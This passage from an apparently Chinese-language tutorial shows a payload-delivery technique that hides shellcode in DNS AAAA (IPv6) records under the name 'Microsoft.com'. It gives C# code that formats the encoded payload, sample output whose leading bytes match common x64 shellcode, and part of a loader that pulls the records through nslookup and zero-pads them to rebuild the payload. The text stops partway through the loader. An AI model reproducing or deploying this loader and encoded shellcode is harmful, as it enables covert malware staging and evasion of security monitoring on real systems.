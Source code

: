   
输出ipv6解析形式，这里ipv6的前7段时payload数据，最后一段表示的是顺序。而这里我们以解析Microsoft.com为例。

  *   * 

    
    
    int v = i + 1;Console.WriteLine("{0}{1} {2}", p, v.ToString("0000"), "Microsoft.com");

  
输出结果

  *   *   *   *   *   * 

    
    
    fc48:83e4:f0e8:c8aa:aaaa:4151:4150:0001 Microsoft.com5251:5648:31d2:6548:8b52:6048:8b52:0002 Microsoft.com1848:8b52:2048:8b72:5048:0fb7:4a4a:0003 Microsoft.com...4805:aaaa:aaaa:50c3:e87f:fdff:ff31:0065 Microsoft.com302e:302e:302e:38aa:aaaa:aaaa:FFFF:0066 Microsoft.com

  

### 4.4.2 开启dns服务

  

这里开启dns服务步骤和ipv4的一样，就不再介绍。  

### 4.4.3 IPV6 DNS A记录Loader

  

此程序和ipv4的作用一样，是一个payload loader。通过DNS AAAA解析来获得payload数据。
程序的前半部分和ipv4的一样，通过nslookup来获得DNS
AAAA解析数据。后面由于ipv6的0位压缩表示法，会将01c1这种数据压缩成1c1，但是我们FF替换是00而没有处理这种数据，所以需要对ipv6的每一段进行一次填0处理，来确保数据的完整性。
填0函数

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    public static string __zero(string str){    string[] temp_normalize = str.Split(':');    for (int ix = 0; ix < temp_normalize.Length; ix++)    {        int count = temp_normalize[ix].Length;        if (count < 4)        {            Console.ForegroundColor = ConsoleColor.Green;            for (int j = 0; j < 4 - count; j++)            {                temp_normalize[ix] = "0" + temp_normalize[ix];            }        }    }    return string.Join(":", temp_normalize);}

  
获得nslookup数据后，解析处理后的payload的第一行，并进行填0

  *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    string[] All_lines = computerList.Replace("\t", "").Replace("\r", "").Split('\n');int start = 0;List<string> A_Records = new List<string>();for (int x = 0; x < All_lines.Length; x++){    if (All_lines[x].ToUpper().Contains("ADDRESSES:"))    {        int f = All_lines[x].IndexOf("Addresses:  ") + "Addresses:  ".Length;        string str = All_lines[x].Substring(f, All_lines[x].Length - 12);        A_Records.Add(__zero(str));        start = x;        break;    }}

  
解析后续的payload并填0  

  *   *   *   *   * 
